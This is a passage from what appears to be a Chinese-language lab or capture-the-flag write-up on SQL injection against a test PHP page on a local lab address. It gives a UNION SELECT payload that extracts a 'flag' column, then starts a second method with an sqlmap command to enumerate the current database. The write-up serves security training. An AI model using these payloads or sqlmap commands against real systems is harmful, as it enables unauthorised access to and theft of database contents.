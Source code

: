 获取`flag`表的中列的值

```text
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= -1' union select 1,flag,3,4 from flag %23
```

![&#x83B7;&#x53D6;flag&#x8868;&#x7684;&#x4E2D;&#x5217;&#x7684;&#x503C;](../.gitbook/assets/1_4%20%281%29.png)

### 方法二

#### 工具

* python 2.7.15
* sqlmap

#### 步骤

获取当前数据库名称

```text
python sqlmap.py -u http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=1 -p gid --current-db
```

![&#x83B7;&#x53D6;&#x5F53;&#x524D;&#x6570;&#x636E;&#x5E93;&#x540D;&#x79F0;](../.gitbook/assets/1_5%20%281%29.png)